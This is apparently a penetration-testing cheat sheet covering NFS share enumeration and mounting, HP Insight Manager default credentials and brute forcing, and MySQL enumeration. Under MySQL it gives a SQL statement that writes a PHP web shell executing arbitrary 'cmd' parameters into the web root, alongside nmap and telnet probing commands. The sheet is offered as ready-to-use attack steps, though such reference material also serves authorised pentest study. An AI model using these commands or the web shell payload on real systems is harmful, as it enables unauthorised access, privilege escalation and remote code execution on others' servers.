 * Check for shares
  ```
  # showmount -e [hostname / ip_address]
  ```

* Then to mount the folder:
  ```
  # mount -t nfs [ip_address]:/[directory_found_exported] /[local_mount_point]
  ```

* For **Privilege Escalation** with a misconfigured NFS see [this link](files_and_folders#nfs_share)
  ** Priv escalation on Linux with NFS:  

* NfSpy - an ID-spoofing NFS client

* Examine Configuration Files
    - /etc/exports
    - /etc/lib/nfs/xtab

### Compaq/HP Insight Manager Port 2301,2381open
    HP Enumeration
        Authentication Method
            Host OS Authentication
            Default Authentication
                Default Passwords
        Wikto
        Nstealth
    HP Bruteforce
        Hydra
        Acunetix
    Examine Configuration Files
        path.properties
        mx.log
        CLIClientConfig.cfg
        database.props
        pg_hba.conf
        jboss-service.xml
        .namazurc

### MySQL port 3306 open

* Write to file
  ```
  SELECT "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE '/var/www/html/shell.php';

  ```

* Enumeration
  ```
  nmap -A -n -p3306 <IP Address>
  nmap -A -n -PN --script:ALL -p3306 <IP Address>
  telnet IP_Address 3306
  use test; select * from test;
  To check for other DB's -- show databases
  ```

